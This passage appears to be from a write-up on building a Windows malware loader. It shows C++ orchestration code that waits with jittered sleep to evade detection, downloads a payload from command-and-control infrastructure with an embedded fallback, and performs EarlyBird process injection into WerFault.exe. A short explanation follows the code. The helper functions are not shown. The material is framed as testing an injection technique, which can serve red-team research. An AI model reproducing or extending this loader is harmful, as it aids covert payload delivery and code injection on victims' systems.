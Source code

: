 

### The Execute Method

The **Execute** method orchestrates the complete loader workflow:

```cpp
    bool Execute() {
        LOG("========================================");
        LOG("  Testing EarlyBird Injection Technique against W11");
        LOG("========================================");
        
        JitteredSleep(3000, 7000);
        
        // Try to download payload
        bool downloadSuccess = DownloadPayload();
        if (!downloadSuccess) {
            LOG("Using embedded fallback payload");
            payload = GetEmbeddedPayload();
            if (payload.empty()) {
                LOG_ERROR("No payload available");
                return false;
            }
        }
        
        // Test EarlyBirdInjection on WerFault.exe
        std::vector<std::wstring> targets = {
            L"C:\\Windows\\System32\\WerFault.exe"  // Windows Error Reporting
        };
        
        bool success = false;
        
        for (const auto& target : targets) {
            std::string targetStr(target.begin(), target.end());
            LOG("Testing EarlyBirdInjection on target: " + targetStr);
            
            if (EarlyBirdInjection(target)) {
                success = true;
                LOG("Injection succeeded on " + targetStr);
            } else {
                LOG_ERROR("Injection failed on " + targetStr);
            }
        }
        
        return success;
    }
```

The execution flow starts with an initial jittered delay to avoid looking like automated malware. It then attempts to download the payload from the C2 infrastructure, but falls back to an embedded payload if the download fails for any reason. Once we have a payload, it injects into WerFault.exe using the EarlyBird technique and returns a success or failure status.
